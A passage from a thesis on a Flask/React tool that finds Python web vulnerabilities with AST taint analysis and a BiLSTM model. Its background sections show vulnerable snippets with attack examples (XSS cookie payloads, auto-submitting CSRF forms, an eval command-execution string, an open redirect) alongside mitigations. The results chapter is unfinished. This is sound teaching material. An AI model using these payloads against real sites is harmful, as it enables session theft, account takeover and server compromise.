DOM-based XSS occurs when the attack payload is executed as a result of modifying the DOM in the victim's browser. The malicious code is not sent to the server but is executed entirely in client-side JavaScript.

\textbf{How it works:} The attacker crafts a URL or manipulates client-side code so that the application writes user-controllable data to a dangerous location in the DOM. When the page loads, the malicious script executes. This can bypass server-side protections because the attack happens entirely in the browser.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[language=JavaScript, basicstyle=\ttfamily\small, keywordstyle=\color{blue}, frame=single, breaklines=true, breakatwhitespace=false]
<div id="content"></div>
<script>
    const params = new URLSearchParams(window.location.search);
    const name = params.get("name");
    document.getElementById("content").innerHTML = name;
</script>
\end{lstlisting}

\textbf{Attack Example:} Attacker sends a URL whose parameter is inserted into the DOM; the payload runs when rendered:
\begin{lstlisting}[style=attackcode]
http://example.com/page?name=<img src=x onerror="alert(document.cookie)">
\end{lstlisting}
The JavaScript extracts the \texttt{name} parameter and inserts it into \texttt{innerHTML}, causing the script to execute.

\textbf{Mitigation:} Avoid dangerous DOM methods (\texttt{innerHTML}, \texttt{outerHTML}, \texttt{document.write}); use safe methods (\texttt{textContent}, \texttt{setAttribute}); validate and sanitize data from URL parameters and other client-side sources; use CSP~\cite{OWASPXSSCheatsheet,OWASPCSPCheatsheet,OWASPInputValidationCheatsheet}. Use \texttt{textContent} instead of \texttt{innerHTML}: \texttt{document.getElementById("content").textContent = name;} (automatically escapes).

\subsection{JavaScript Context Injection}
\label{sec:xss_js_context}

JavaScript Context Injection occurs when user input is directly inserted into JavaScript code without proper encoding or validation, allowing attackers to break out of the intended context and execute arbitrary code.

\textbf{How it works:} Attackers inject malicious JavaScript that runs when the page loads. This can happen when user input is embedded in \texttt{<script>} tags, event handlers, JavaScript variables, or other JavaScript contexts. The injected code runs with the same privileges as the page's legitimate script.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
username = request.args.get("name")
return f'<script>var username = "{username}";</script>'
\end{lstlisting}

\textbf{Attack Example:} Attacker breaks out of the JavaScript string and injects code. Injected payload:
\begin{lstlisting}[style=attackcode]
"; alert(document.cookie); var x="
\end{lstlisting}
URL: \texttt{http://example.com/user?name="; alert(document.cookie); var x="}. This breaks out of the string and executes \texttt{alert(document.cookie)}.

\textbf{Mitigation:} Never use \texttt{eval()} with user input; encode data for JavaScript context using JSON encoding; avoid embedding user input directly in \texttt{<script>} tags; use data attributes and read them safely. Example:

\begin{lstlisting}[style=pycode]
import json
username_json = json.dumps(username)
return f'<script>var username = {username_json};</script>'
\end{lstlisting}

\section{Cross-Site Request Forgery (CSRF)}
\label{sec:background_csrf}

Cross-Site Request Forgery (CSRF) is a security vulnerability that forces authenticated users to execute unwanted actions on a web application~\cite{OWASPTop10,OWASPCSRCheatsheet,OWASPSessionManagementCheatsheet,OWASPAuthenticationCheatsheet,CWE352,XSSRef2,MDNSameSite,RFC6265}. Attackers exploit the trust that a site has in a user's browser by tricking the user into submitting a request to the vulnerable application. CSRF attacks can lead to:
\begin{itemize}
	\item Unauthorized state changes (password changes, email changes)
	\item Unauthorized financial transactions
	\item Data deletion or modification
	\item Account takeover
	\item Privilege escalation
\end{itemize}

\subsection{Unprotected POST Routes}
\label{sec:csrf_unprotected_post}

Unprotected POST routes are endpoints that accept POST requests without CSRF token validation. Attackers can craft malicious forms or scripts that submit POST requests on behalf of authenticated users.

\textbf{How it works:} When a POST route lacks CSRF protection, an attacker can create a malicious website with a form or script that automatically submits a POST request to the vulnerable endpoint. If the user is authenticated, the browser includes their session cookies, making the request appear legitimate.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
from flask import Flask, request
app = Flask(__name__)
@app.route("/change-password", methods=["POST"])
def change_password():
    new_password = request.form.get("password")
    # Change password without CSRF validation
    update_user_password(new_password)
\end{lstlisting}

\textbf{Attack Example:} Attacker creates a malicious site with a form that POSTs to the victim site. Example:
\begin{lstlisting}[style=attackcode]
<form action="http://victim-site.com/change-password" method="POST">
  <input name="password" value="attacker123">
  <button type="submit">Submit</button>
</form>
\end{lstlisting}
When an authenticated user visits and submits, their password is changed without their knowledge.

\textbf{Mitigation:} Implement CSRF token validation for all state-changing operations; use CSRF protection middleware (Flask-WTF, Django CSRF middleware); validate tokens on every POST/PUT/DELETE; use SameSite cookie attribute. Example with Flask-WTF:

\begin{lstlisting}[style=pycode]
from flask import Flask, request
from flask_wtf.csrf import CSRFProtect
app = Flask(__name__)
csrf = CSRFProtect(app)  # Enable CSRF protection
@app.route("/change-password", methods=["POST"])
def change_password():
    # CSRF token is automatically validated by Flask-WTF
    new_password = request.form.get("password")
\end{lstlisting}

\subsection{Direct Form Processing}
\label{sec:csrf_direct_form}

Direct form processing occurs when applications process form data directly from \texttt{request.form} without validating CSRF tokens, allowing attackers to submit forms from external sites.

\textbf{How it works:} When applications use \texttt{request.form.get()} or \texttt{request.form[]} without checking for CSRF tokens, any website can submit forms to these endpoints. The browser automatically includes session cookies.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
@app.route("/transfer", methods=["POST"])
def transfer_money():
    amount = request.form.get("amount")
    recipient = request.form.get("recipient")
    # Process transfer without CSRF validation
    process_transfer(amount, recipient)
\end{lstlisting}

\textbf{Attack Example:} Attacker embeds a request that runs when the victim loads the page. Example (GET-style trigger):
\begin{lstlisting}[style=attackcode]
<img src="http://bank.com/transfer?amount=1000&recipient=attacker">
\end{lstlisting}
Or using \texttt{fetch()} to POST to the transfer endpoint. When an authenticated user visits the malicious page, the transfer executes automatically.

\textbf{Mitigation:} Always validate CSRF tokens before processing form data; use framework CSRF protection; implement double-submit cookie pattern; verify Origin or Referer header. Use FlaskForm with \texttt{form.validate\_on\_submit()} so the CSRF token is included and validated automatically.

\subsection{AJAX Operations Without CSRF}
\label{sec:csrf_ajax}

AJAX operations without CSRF protection are vulnerable when JavaScript makes POST/PUT/DELETE requests without including CSRF tokens in headers or request bodies.

\textbf{How it works:} If AJAX requests do not include CSRF tokens, attackers can craft malicious JavaScript on external sites that executes these requests, exploiting the user's authenticated session.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[language=JavaScript, basicstyle=\ttfamily\small, keywordstyle=\color{blue}, frame=single, breaklines=true, breakatwhitespace=false]
// Client-side JavaScript
$.ajax({
    url: "/api/delete-account",
    method: "POST",
    data: {confirm: true}
    // Missing CSRF token in headers
});
\end{lstlisting}

\textbf{Attack Example:} Attacker's site includes JavaScript that sends a POST request using the victim's credentials:
\begin{lstlisting}[language=JavaScript, basicstyle=\ttfamily\small, keywordstyle=\color{blue}, frame=single, breaklines=true, breakatwhitespace=false]
fetch("http://victim-site.com/api/delete-account", {
  method: "POST",
  body: JSON.stringify({confirm: true}),
  credentials: "include"
});
\end{lstlisting}
When an authenticated user visits, their account is deleted.

\textbf{Mitigation:} Include CSRF tokens in AJAX request headers (\texttt{X-CSRF-Token}) or in the request body; use framework-provided AJAX CSRF protection; validate tokens on the server. Example: read token from \texttt{meta[name="csrf-token"]} and set \texttt{headers: \{"X-CSRF-Token": csrfToken\}} in the \texttt{\$.ajax()} call.

\subsection{HTML Forms Without Tokens}
\label{sec:csrf_html_forms}

HTML forms without CSRF tokens are vulnerable when they submit state-changing operations without including or validating CSRF tokens.

\textbf{How it works:} When HTML forms do not include CSRF token fields, attackers can replicate these forms on external sites. When users submit, the browser includes session cookies, so requests appear legitimate although they originate from malicious sites.

\textbf{Example -- Vulnerable Code:} A form that POSTs to \texttt{/update-profile} with \texttt{email} and submit button but no CSRF token field.

\textbf{Attack Example:} Attacker replicates the form on their site and auto-submits it. Example:
\begin{lstlisting}[style=attackcode]
<form action="http://victim-site.com/update-profile" method="POST">
  <input name="email" value="attacker@evil.com">
</form>
<script>document.forms[0].submit();</script>
\end{lstlisting}
When an authenticated user visits, the form submits and changes their email.

\textbf{Mitigation:} Include CSRF token in all forms that perform state changes; use framework template helpers (e.g., \texttt{\{\{ csrf\_token() \}\}} in Flask-WTF) that automatically include the token; validate CSRF tokens on the server for all form submissions.

\subsection{GET Method State Changes}
\label{sec:csrf_get_state}

GET method state changes occur when applications use GET requests to perform state-changing operations (deletions, updates, purchases). This is vulnerable because GET requests can be triggered by links or images, making CSRF trivial.

\textbf{How it works:} HTTP GET should be idempotent and only retrieve data. When GET performs state changes, attackers can embed links or images that trigger these operations. GET requests do not require forms, so CSRF protection is harder to apply.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
@app.route("/delete-item/<item_id>", methods=["GET"])
def delete_item(item_id):
    # State-changing operation via GET - vulnerable to CSRF
    delete_item_from_db(item_id)
    return redirect("/items")
\end{lstlisting}

\textbf{Attack Example:} Attacker triggers the state-changing GET request via an image or link. Example:
\begin{lstlisting}[style=attackcode]
<img src="http://victim-site.com/delete-item/123">
\end{lstlisting}
When an authenticated user visits the malicious page, the item is deleted without explicit consent.

\textbf{Mitigation:} Never use GET for state-changing operations; use POST, PUT, or DELETE for modifications; follow RESTful principles; implement CSRF protection for all state-changing operations. Use POST for deletion:

\begin{lstlisting}[style=pycode]
@app.route("/delete-item/<item_id>", methods=["POST"])
def delete_item(item_id):
    # Use POST for state-changing operations
    # CSRF protection is automatically applied by Flask-WTF
    delete_item_from_db(item_id)
    return redirect("/items")
\end{lstlisting}


\section{Additional Vulnerabilities Detected by the ML Model}
\label{sec:background_additional_ml_vulns}

In addition to the vulnerabilities discussed above, the machine learning model is also trained to detect additional vulnerability patterns that commonly appear in Python web applications. These vulnerabilities are briefly summarized below.

Unlike the four primary categories emphasized in the static-analysis part of this thesis, these additional classes are captured in the ML setting through learned token and context patterns rather than hand-crafted rules. This is useful when vulnerable behavior is expressed in diverse coding styles or appears in framework-specific logic where a single deterministic pattern is difficult to define.

From a practical security perspective, these vulnerability types are also important because they often act as enablers for larger attack chains. For example, path disclosure can reveal deployment details that support follow-up exploitation, while open redirects can be used in phishing flows to steal credentials. Including these categories in the ML scope therefore improves the breadth of risk signals provided to users during code scanning.

\subsection{Remote Code Execution (RCE)}
Remote Code Execution vulnerabilities occur when untrusted input is executed as code (for example, through unsafe use of \texttt{eval()}, \texttt{exec()}, or dynamically built system commands). Successful exploitation can allow an attacker to run arbitrary commands on the target server with the application's privileges.

\textbf{How it works:} The application reads user-controlled input and passes it into a dangerous execution primitive. If no strict validation or sandboxing is applied, the attacker controls the executed expression or command.

\textbf{Example -- Vulnerable Code:}
\begin{lstlisting}[style=pycode]
from flask import request

@app.route("/calc")
def calc():
    expr = request.args.get("expr", "")
    return str(eval(expr))  # Vulnerable: executes user input
\end{lstlisting}

\textbf{Attack Example:}
\begin{lstlisting}[style=attackcode]
GET /calc?expr=__import__("os").popen("id").read()
\end{lstlisting}
The payload causes server-side command execution and returns command output to the client.

\textbf{Mitigation:} Never execute raw user input with \texttt{eval()} or \texttt{exec()}. Use safe parsers, strict allowlists, and constrained execution environments. For expression evaluation, prefer dedicated libraries that parse only permitted operators and literals.

\subsection{Path Disclosure}
Path Disclosure vulnerabilities expose internal filesystem paths through error messages, debug output, or misconfigured responses. Although this does not always lead to direct compromise, it provides attackers with sensitive environment information that can be used to plan further attacks.

\textbf{How it works:} The application returns stack traces or diagnostic output directly to users. These messages can reveal absolute paths, framework internals, usernames, or deployment structure.

\textbf{Example -- Vulnerable Code:}
\begin{lstlisting}[style=pycode]
@app.route("/load")
def load():
    filename = request.args.get("file")
    with open(f"/var/www/app/data/{filename}", "r") as f:
        return f.read()
\end{lstlisting}
If an exception occurs and debug mode is enabled, the response may expose full server paths.

\textbf{Attack Example:}
\begin{lstlisting}[style=attackcode]
GET /load?file=missing.txt
\end{lstlisting}
The attacker intentionally triggers an error and reads traceback output that reveals internal filesystem paths.

\textbf{Mitigation:} Disable debug mode in production, use centralized error handling, and return generic user-facing error messages. Log detailed traces only on the server side with restricted access.

\subsection{Open Redirect}
Open Redirect vulnerabilities occur when an application redirects users based on unvalidated input (for example, a \texttt{next=} or \texttt{url=} parameter). Attackers can abuse this behavior for phishing, user redirection to malicious domains, or bypassing trust assumptions in multi-step workflows.

\textbf{How it works:} After login or form submission, the application reads a redirect target from request parameters and forwards the user without checking whether the target is trusted.

\textbf{Example -- Vulnerable Code:}
\begin{lstlisting}[style=pycode]
from flask import request, redirect

@app.route("/go")
def go():
    target = request.args.get("next", "/")
    return redirect(target)  # Vulnerable: no allowlist validation
\end{lstlisting}

\textbf{Attack Example:}
\begin{lstlisting}[style=attackcode]
https://example.com/go?next=https://attacker-site.com/login
\end{lstlisting}
Victims may trust the original domain and follow the redirect to a malicious phishing page.

\textbf{Mitigation:} Enforce an allowlist of trusted redirect targets, reject absolute external URLs by default, and normalize/validate paths before redirecting. If external redirects are required, display a clear interstitial warning page.

Together, these additional vulnerability classes complement the core four vulnerability types discussed earlier in this chapter. They broaden the model's ability to flag security-relevant code regions and provide developers with earlier indicators of potentially exploitable behavior during secure development and review.


\chapter{Related Work}
\label{ch:related_work}

This chapter reviews prior research on source-code vulnerability detection across static analysis, machine learning methods, and combined workflows. The goal is to position this thesis against existing approaches and identify the specific contribution gap addressed by the proposed system.

\section{Static Analysis for Vulnerability Detection}
\label{sec:rw_static}

Static analysis detects defects by inspecting program structure without running the code. For web-security issues such as SQL injection, XSS, command injection, and CSRF, common techniques include structural pattern matching, AST inspection, and dataflow/taint reasoning.

Rule-based and AST-based tools are widely used in practice. Semgrep~\cite{Semgrep}, for example, matches rules over a program's AST and supports configurable dataflow and taint analysis to trace untrusted inputs to sensitive sinks. Bandit~\cite{Bandit} focuses on Python and checks for common insecure patterns (e.g., use of \texttt{eval}, hardcoded passwords). Pylint and similar linters can be extended with security-oriented rules. These tools are fast and interpretable but depend on the quality and coverage of rules; they may miss novel variants or produce false positives when patterns are too broad. In industry, additional static analysis platforms such as CodeQL~\cite{GitHubCodeQL}, SonarQube~\cite{SonarQube}, and Coverity~\cite{Coverity} are commonly used to detect security issues and code quality problems across large codebases.

Studies on developer adoption show that static analysis tools are underused partly due to usability and trust: developers want actionable, relevant results and are frustrated by noisy or hard-to-interpret output~\cite{Christakis2016,Johnson2013}. This motivates tools that combine multiple analysis strategies and present findings in a clear, integrated way, as in the static analysis component of this thesis.

\section{Machine Learning for Code Vulnerability Detection}
\label{sec:rw_ml}

Machine learning approaches infer vulnerability patterns from large code corpora and historical commits. Recent work combines learned code representations with deep sequence or graph models for vulnerability classification~\cite{Allamanis2018Survey,Alon2019code2vec,Feng2020CodeBERT,Zhou2019Devign,SySeVR2021,Steenhoek2024DeepDFA}.

Farasat and Posegga~\cite{Farasat2024MLPython} present a comparative study of machine learning techniques for Python source code vulnerability detection (CODASPY~'24). They compare Gaussian Naive Bayes (GNB), Decision Tree, Logistic Regression (LR), Multi-Layer Perceptron (MLP), and BiLSTM. Their results show that BiLSTM combined with Word2Vec achieves state-of-the-art performance, with average accuracy of approximately 98.6\% and F1-score of approximately 94.7\%. The open-source code and model architecture are available in the Python-Source-Code-Vulnerability-Detection repository~\cite{PythonVulnDetectionDataset}, which uses a TensorFlow-based BiLSTM setup for the same vulnerability types (SQL injection, XSS, command injection, CSRF).

Recurrent architectures such as LSTM and BiLSTM are commonly used for sequence classification and can be trained to predict whether a code snippet is vulnerable. The VulnerabilityDetection-master project~\cite{VulnDetection} and the Python-Source-Code-Vulnerability-Detection repository~\cite{PythonVulnDetectionDataset} provide datasets and pretrained BiLSTM models for Python vulnerability types (SQL injection, XSS, command injection, CSRF), mined from real-world GitHub commits. Other work explores datasets such as DiverseVul for C/C++ vulnerabilities and evaluates a range of neural architectures~\cite{Fan2023DiverseVul,Zhou2019Devign}. Word2Vec and similar embeddings~\cite{Word2VecRef}, as well as more recent code representation models like code2vec and CodeBERT~\cite{Alon2019code2vec,Feng2020CodeBERT}, are often used to obtain distributed representations of code tokens or AST paths, which are then fed into LSTM-based or graph-based models for classification or localization~\cite{LSTMRef,Li2018VulDeePecker,Zhang2025DLSurvey}. Such models can generalize to unseen variants that follow similar patterns but require substantial training data and may lack interpretability compared to rule-based analysis.

\subsection{Other Python-Focused ML Approaches}
\label{sec:rw_ml_python}

Additional studies focus directly on Python vulnerability detection. Wartschinski et al.~\cite{VulnDetection} present VUDENC, which applies machine learning to Python code mined from natural repositories. Wang et al.~\cite{Wang2024DLPythonVuln} compare multiple deep architectures for Python vulnerability detection, and Bagheri and Hegedűs~\cite{Bagheri2021PythonVuln} evaluate code-representation choices using BERT embeddings with LSTM-based sequence modeling.

Table~\ref{tab:rw_python_ml} summarizes these Python-focused ML approaches by key idea or model.

\begin{table}[htbp]
\centering
\caption{Selected Python-focused ML approaches for vulnerability detection.}
\label{tab:rw_python_ml}
\begin{tabular}{@{}ll@{}}
\hline
\textbf{Approach} & \textbf{Key idea / model} \\
\hline
Wartschinski et al. & VUDENC: ML-based Python vulnerability detection \\
Wang et al. & Deep learning / NLP models for Python code \\
Bagheri \& Hegedűs & BERT + LSTM for sequence/code analysis \\
\hline
\end{tabular}
\end{table}

\section{Comparison and Hybrid Approaches}
\label{sec:rw_comparison}

Only a limited number of studies compare static analysis and machine learning on the same vulnerability categories within one user-facing platform. Static analysis typically provides immediate and explainable findings without training data, while ML can capture subtler patterns but introduces data dependence and reduced interpretability. Dual-mode systems are therefore useful both in practice and in research because they enable side-by-side comparison of these trade-offs.

The system in this thesis provides exactly such a comparison: handcrafted static analysis (regex, AST, taint flow) and ML-based scoring using pretrained BiLSTM models, with a unified interface for file upload, paste, or GitHub URL. The evaluation in the main body compares precision, recall, and F1 across vulnerability types and discusses trade-offs and ways to reduce false positives and improve interpretability.

\chapter{Methodology}
\label{ch:methods}

This section describes the design and implementation of the proposed web-based vulnerability scanning platform. The methodology is divided into four main components: static analysis implementation, machine learning--based detection, web framework architecture, and the system workflow.

\section{Static-Based Detection}
\label{sec:static_detection}

\subsection{}
\label{sec:static_ast_intro}

It leverages Python's Abstract Syntax Tree (AST)~\cite{PythonAST} to parse code and detect unsafe behaviors. The approach examines code structure and data flow without executing it, tracking how user input flows through the program and whether it reaches dangerous operations such as database queries, shell commands, or unescaped output. ``Tainted'' data is data from an untrusted source (e.g., user input, HTTP request); a ``sink'' is a dangerous operation that could cause a vulnerability if it receives tainted data. If tainted data reaches a sink, a vulnerability is reported.

\subsection{Implementation Steps}
\label{sec:static_implementation_steps}

\subsubsection{Parsing}
\label{sec:static_parsing}

Convert Python source code into an AST. The system uses Python's built-in \texttt{ast} module to parse the complete syntactic structure. Each statement becomes a node in the tree, with the root as a Module node. The parser handles imports, functions, assignments, and calls, enabling semantic analysis beyond simple text matching.

\textbf{Building the AST Tree from Code.} When Python parses the code, it creates a tree structure. The parsing process: (1) Python reads the source code line by line; (2) it identifies different code elements (imports, functions, assignments, calls); (3) it creates nodes for each element and connects them in a tree; (4) the root node is always a Module node containing all the code.

Consider the following vulnerable Python code with SQL injection:

\begin{lstlisting}[style=pycode]
from flask import Flask, request
import sqlite3

@app.route("/user")
def get_user():
    user_id = request.args.get("id")  # SOURCE: User input
    query = f"SELECT * FROM users WHERE id = {user_id}"  # TAINT
    cursor.execute(query)  # SINK: Dangerous operation
\end{lstlisting}

The following tree shows how each line maps to AST nodes. The root is \texttt{Module}; the function \texttt{get\_user} is a \texttt{FunctionDef}; its body contains \texttt{Assign} nodes (source and taint propagation) and an \texttt{Expr} (the sink call):

\begin{quote}
\small
\begin{verbatim}
                    Module (Root)
                           |
                FunctionDef: get_user
                     /     |     \
               Assign   Assign   Expr
                 |        |        |
           user_id=   query=   cursor.execute()
                 |        |        |
               Call   JoinedStr   Call
                 |        |        |
       request.args.get  FormattedValue  query (arg)
            [SOURCE]          |        [SINK]
                          user_id
\end{verbatim}
\end{quote}

\subsubsection{Traversal}
\label{sec:static_traversal}

Navigate the AST to analyze function calls, input handling, and data flows. A custom AST visitor walks the tree to identify sources (where untrusted data enters, e.g., \texttt{request.args.get()}, \texttt{request.form.get()}), track taint propagation through variable assignments and string operations, and detect sinks (dangerous operations such as \texttt{cursor.execute()}, \texttt{os.system()}, \texttt{eval()}). The visitor follows the path from source to sink to confirm vulnerabilities.

\subsection{Rule-Based Detection}
\label{sec:static_rule_based}

Apply explicit rules for each targeted vulnerability: SQL Injection, Cross-Site Scripting (XSS), Command Injection, and Cross-Site Request Forgery (CSRF). The system employs a three-layer hybrid approach: \textbf{Layer 1 (Regex Patterns)} for fast initial screening with high recall; \textbf{Layer 2 (AST Analysis)} for context-aware validation and false positive reduction; \textbf{Layer 3 (Deduplication \& Scoring)} for severity classification, confidence scores, and report generation. For each vulnerability type, the rules detect: \textbf{SQL Injection} --- string concatenation, f-string formatting, and unsafe query construction; \textbf{XSS} --- unsafe output of user-controlled data in HTML, JavaScript, and attribute contexts; \textbf{Command Injection} --- \texttt{os.system()}, \texttt{subprocess} with \texttt{shell=True}, \texttt{eval()}, \texttt{exec()}; \textbf{CSRF} --- unprotected POST routes, missing CSRF tokens, and unsafe HTTP method usage.

\section{Machine Learning--Based Detection}
\label{sec:ml_detection}

The machine learning module uses a BiLSTM (Bidirectional Long Short-Term Memory) model to detect vulnerabilities based on patterns learned from large annotated Python code corpora~\cite{VulnDetection,PythonVulnDetectionDataset}. The approach operates at the code token level, enabling precise identification of vulnerable code segments. A Word2Vec model is trained on a large corpus of Python code to learn distributed representations of code tokens; these embeddings capture semantic relationships between programming constructs. The BiLSTM architecture includes an input layer receiving token embeddings, LSTM layers with memory cells to capture long-range dependencies in code sequences, dense layers with dropout for classification, and a binary output layer (vulnerable/not vulnerable) for token-level classification. Training uses datasets mined from real-world GitHub commits, ensuring the models learn from actual vulnerability patterns in production code.

\subsection{Implementation Steps}
\label{sec:ml_implementation_steps}

\subsubsection{Preprocessing}
\label{sec:ml_preprocessing}

Tokenize Python code and encode sequences for the BiLSTM model. The system uses character-level one-hot encoding (vocab size 300, sequence length 200) or token-based Word2Vec embeddings. Longer code is processed via sliding windows: window size 200 characters, stride 100 characters (50\% overlap); overall prediction is the maximum score across all windows. Each window is encoded to shape \texttt{(200, 300)} for model input.

\subsubsection{Model Training}
\label{sec:ml_training}

Train on the VulnerabilityDetection-master dataset for SQL Injection, XSS, Command Injection, and CSRF. The dataset comprises 54,800+ samples across 548 repositories (Table~\ref{tab:dataset_statistics}). Training data is derived from the VUDENC (VulnerabilityDetection) project~\cite{VulnDetection} and the Python-Source-Code-Vulnerability-Detection repository (Model-BiLSTM)~\cite{PythonVulnDetectionDataset}, mined from real-world GitHub commits with security-related keywords.

\subsubsection{Prediction}
\label{sec:ml_prediction}

Use the trained BiLSTM to identify potential vulnerabilities in new code. Each 200-character window is passed through the model; the model produces a probability score per window (0.0--1.0). Line-level localization uses an occlusion-based heuristic: for each line, mask that line and re-run the model; the score decrease (contribution $=$ baseline $-$ masked\_score) indicates how important the line is for the prediction. A dynamic threshold \texttt{max(0.01, baseline * 0.15)} filters lines for highlighting.

\subsubsection{Output}
\label{sec:ml_output}

Provide probability scores, flagged code snippets, and vulnerability types. The system returns severity classification (High, Medium, Low) based on contribution thresholds, line numbers, and highlighted code for the frontend display. Results are formatted as JSON with \texttt{status}, \texttt{prediction}, \texttt{vulnerabilities} array, and \texttt{highlighted\_code}.

\subsection{Dataset Statistics}
\label{sec:dataset_statistics}

Table~\ref{tab:dataset_statistics} shows the scale and diversity of the training data.

\begin{table}[htbp]
	\centering
	\begin{tabular}{lrr}
		\textbf{Vulnerability Type} & \textbf{Samples} & \textbf{Repositories} \\
		\hline
		SQL Injection & 33,600 & 336 \\
		XSS & 3,900 & 39 \\
		Command Injection & 8,500 & 85 \\
		CSRF & 8,800 & 88 \\
	\end{tabular}
	\caption{Dataset statistics (VulnerabilityDetection-master~\cite{PythonVulnDetectionDataset})}
	\label{tab:dataset_statistics}
\end{table}

\section{Web Framework Architecture}
\label{sec:web_framework}

The platform is implemented using a Flask backend and a React frontend, providing a responsive and user-friendly interface~\cite{React,Flask,AlmasiToolRepo,AlmasiDeployedApp}. The system follows a three-tier architecture: \textbf{Presentation Layer (Frontend)} --- React-based web application for user interface and interaction; \textbf{Application Layer (Backend)} --- Flask-based REST API server handling business logic and analysis; \textbf{Analysis Layer} --- Static analysis scanners and machine learning models for vulnerability detection.

\subsection{Frontend (React)}
\label{sec:frontend}

The frontend is built with React and TypeScript, providing a component-based, responsive user interface. Key components include: \textbf{Scanner} --- for selecting vulnerability type (SQL Injection, XSS, Command Injection, CSRF), analysis mode (static or ML), and input method (paste, file upload, GitHub URL); \textbf{Results} --- for displaying vulnerabilities with code highlighting, severity indicators, filtering, and report download. The frontend validates input, prepares JSON payloads, sends HTTP POST requests to the backend API, and renders results with highlighted code and summary metrics. Communication uses the Fetch API; CORS is enabled for cross-origin requests between frontend and backend.

\subsection{Backend (Flask)}
\label{sec:backend}

The backend is a Python Flask REST API server that receives requests, routes them to the appropriate scanner or ML analyzer, and returns JSON responses~\cite{Flask,AlmasiToolRepo}. For static analysis, endpoints include \texttt{/api/scan-sql-injection}, \texttt{/api/scan-xss}, \texttt{/api/scan-command-injection}, \texttt{/api/scan-csrf}; for machine learning, \texttt{/api/scan-ml} handles all vulnerability types with a \texttt{type} parameter. Report generation endpoints (\texttt{/api/generate-*-report}) produce Word documents using python-docx. The backend handles code upload and parsing, static analysis scanning using AST-based techniques, ML model inference, result aggregation, and error handling (validation, timeouts, GitHub URL fetching).

\subsection{Components}
\label{sec:web_components}

\textbf{Code Submission.} Supports direct input (paste), file uploads, and GitHub repository scanning. Users can provide Python source code through any of these methods. The frontend validates that input is not empty, file size does not exceed limits, and GitHub URLs are properly formatted.

\textbf{Analysis Engine.} Routes code to either static or machine learning detection modules based on user selection. The backend exposes RESTful API endpoints for each vulnerability type and analysis mode. Request processing validates input, maps vulnerability types to scanner modules or ML model modes, and executes the appropriate analysis pipeline.

\textbf{Results Visualization.} Interactive frontend highlights vulnerable code, shows vulnerability type and severity, and allows download of Word reports with remediation suggestions and CWE/OWASP references. Results include vulnerability list, code highlighting (red for vulnerable, green for safe), severity breakdown, and filtering by severity level.

\subsection{Design Goals}
\label{sec:design_goals}

\begin{itemize}
	\item \textbf{Modular and scalable architecture} --- Separate scanner modules per vulnerability type; three-tier design enables independent updates and extensions.
	\item \textbf{Easy integration of additional detection methods} --- Architecture supports adding new scanners or ML models without major refactoring.
	\item \textbf{Open-source availability} --- Ensures accessibility for students, developers, and researchers who cannot afford commercial security tools.
\end{itemize}

Figure~\ref{fig:system_flow} illustrates the system flow.

\begin{figure}[htbp]
	\centering
	\small
	\setlength{\fboxsep}{4pt}
	\newcommand{\flowarrow}{\raisebox{0.5ex}{$\downarrow$}}
	\fbox{\textbf{START}} \\[0.8ex]
	\flowarrow \\[0.4ex]
	\fbox{\parbox{0.85\linewidth}{\centering \textbf{User Input}\\File Upload \;|\; Code Paste \;|\; GitHub URL}} \\[0.8ex]
	\flowarrow \\[0.4ex]
	\fbox{\parbox{0.85\linewidth}{\centering \textbf{Frontend (React)}\\Validate input \;$\cdot$\; Select scanner \;$\cdot$\; Choose mode}} \\[0.4ex]
	\flowarrow \quad \textit{HTTP POST} \\[0.4ex]
	\fbox{\parbox{0.85\linewidth}{\centering \textbf{Backend API (Flask)}\\Route to scanner \;$\cdot$\; Static or ML analysis}} \\[0.8ex]
	\flowarrow \\[0.4ex]
	\fbox{\parbox{0.85\linewidth}{\centering \textbf{Results}\\Vulnerability list \;$\cdot$\; Code highlighting \;$\cdot$\; Download reports}} \\[0.8ex]
	\flowarrow \\[0.4ex]
	\fbox{\textbf{END}}
	\caption{System flow: user input to results display.}
	\label{fig:system_flow}
\end{figure}

\section{System Workflow}
\label{sec:system_workflow}

This section explains how to use the system. From the user's perspective, the workflow is the same for both static analysis and machine learning: the user selects an analysis mode, provides code, and receives results. The only differences occur internally during preprocessing and vulnerability detection. The system workflow consists of the following steps:

\subsection{Code Submission}
\label{sec:workflow_submission}

User provides Python code via one of the supported methods: direct paste, file upload, or GitHub repository URL. The frontend validates input (non-empty, file size limits, valid URL format) and sends the request to the backend. This step is identical for both static and ML modes.

\subsection{Preprocessing}
\label{sec:workflow_preprocessing}

The backend preprocesses the code according to the selected mode:
\begin{itemize}
	\item \textbf{Static analysis:} Parse into AST using Python's \texttt{ast} module.
	\item \textbf{Machine learning:} Tokenize and encode for the BiLSTM model (character-level one-hot or Word2Vec embeddings).
\end{itemize}

\subsection{Vulnerability Detection}
\label{sec:workflow_detection}

The analysis engine runs the appropriate detector:
\begin{itemize}
	\item \textbf{Static analysis:} Apply rule-based checks (regex patterns, AST taint analysis, sink detection).
	\item \textbf{BiLSTM model:} Predict vulnerabilities and compute probability scores.
\end{itemize}

\subsection{Result Compilation}
\label{sec:workflow_compilation}

Detected vulnerabilities are organized into a report with line numbers, types, and mitigation suggestions. Results are deduplicated, severity-classified (Critical, High, Medium, Low), and formatted as JSON for the frontend. This step is the same for both modes.

\subsection{User Interface Display}
\label{sec:workflow_display}

Frontend presents results interactively, allowing users to review and compare outputs from both methods. Users can filter by severity, view highlighted code (red for vulnerable, green for safe), download Word reports, and switch between static and ML results for comparison.

\chapter{Results and Comparison}
\label{ch:results}

\section{SQL Injection}
\label{sec:results_sql}

\begin{enumerate}
  \item \textbf{Comparison: ML vs static analysis.}\\
  % Content to be provided.

  \item \textbf{Comparison: Semgrep vs ML.}\\
  % Content to be provided.

  \item \textbf{Comparison: Semgrep vs static analysis.}\\
  % Content to be provided.
\end{enumerate}

\section{XSS}
\label{sec:results_xss}

\begin{enumerate}
  \item \textbf{Comparison: ML vs static analysis.}\\
  % Content to be provided.

  \item \textbf{Comparison: Semgrep vs ML.}\\
  % Content to be provided.

  \item \textbf{Comparison: Semgrep vs static analysis.}\\
  % Content to be provided.
\end{enumerate}

\section{Command Injection}
\label{sec:results_cmd}

\begin{enumerate}
  \item \textbf{Comparison: ML vs static analysis.}\\
